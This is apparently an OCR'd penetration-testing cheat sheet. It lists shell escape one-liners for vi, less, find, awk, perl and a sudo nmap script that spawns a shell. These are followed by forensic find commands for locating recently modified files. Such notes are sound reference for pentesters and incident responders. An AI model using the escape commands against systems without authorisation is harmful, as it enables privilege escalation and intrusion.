 

Common Shell Escape Sequences:
Command 	Program(s)
:!bash 	vi, vim
:set shell=/bin/bash:shell 	vi, vim
!bash 	man, more, less
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 	find
awk 'BEGIN {system("/bin/bash")}' 	awk
--interactive 	nmap
echo "os.execute('/bin/sh')" > exploit.nse

sudo nmap --script=exploit.nse 	nmap (thanks to comment by anonymous below)
perl -e 'exec "/bin/bash";' 	Perl



A special thanks to the following useful resources:

    g0tm1lk
    SANS Pentesting Resources


cat

debugfs

grep

file:

Collect file metadata from file

tail / head / less

ls -alh

hostname

fuser

date

find:

hunt across a file system to find things the attacker may have changed within the last 7 days:

find / -mtime -7

Find files which were modified on 2024-02-23:

find / -newermt "2024-02-23" -ls 2>/dev/null

List files which were modified on 2024-02-01 until 2024-02-24

find / -newermt "2024-02-01" ! -newermt "2024-02-24" -ls 2>/dev/null

Find files modified between 01:00 and 07:00 on February 20 2024:

find / -newermt "2024-02-20 01:00:00" ! -newermt "2024-02-20 07:00:00" -ls 2>/dev/null

List files that were accessed exactly 2 days ago:

find / -atime 2 -ls 2>/dev/null
